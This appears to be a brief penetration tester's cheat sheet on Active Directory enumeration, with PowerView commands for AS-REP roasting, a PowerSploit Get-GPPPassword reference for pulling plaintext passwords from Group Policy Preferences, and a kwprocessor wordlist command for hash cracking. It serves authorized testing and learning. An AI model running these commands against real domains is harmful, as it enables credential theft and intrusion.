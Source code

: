 ## **More fun in AD**

Below are a collection of items to run within a new environment to check for

In addition the bloodhound and basic net enumeration try looking for the following:

Next try running

Powerup

as well as hamrj0y's powerview tips

[https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

Determine if kerberos pre-auth is not set

```
#With Powerview

# check for users who don't have kerberos preauthentication set
Get-DomainUser -PreauthNotRequired
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
Invoke-ASREPRoast -Verbose | fl
```

```
#Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
Get-GPPPassword from Powersploit

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
```



Note: A great tool for cracking hashes is kwprocessor

```
./kwp -z basechars/full.base keymaps/en.keymap routes/2-to-16-max-3-direction-changes.route > largekwpshift.txt
```

[http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)

